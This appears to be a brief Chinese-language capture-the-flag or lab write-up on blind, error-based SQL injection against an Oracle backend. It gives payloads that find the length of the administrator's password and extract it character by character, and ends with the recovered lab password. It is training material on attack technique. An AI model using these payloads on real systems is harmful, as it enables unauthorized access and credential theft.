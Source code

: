确定 `administrator` 用户的密码中有多少个字符

```
'||(SELECT CASE WHEN LENGTH(password)=20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image-20250502162353790](./img/image-20250502162353790.png)

检索数据

```
'||(SELECT CASE WHEN SUBSTR(password,1,1)='m' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

找到此列中包含 500 的行，该行显示的payload是该位置的字符值

![image-20250502162801556](./img/image-20250502162801556.png)

```
administrator
mp09bllhyku73gjprdgx
```
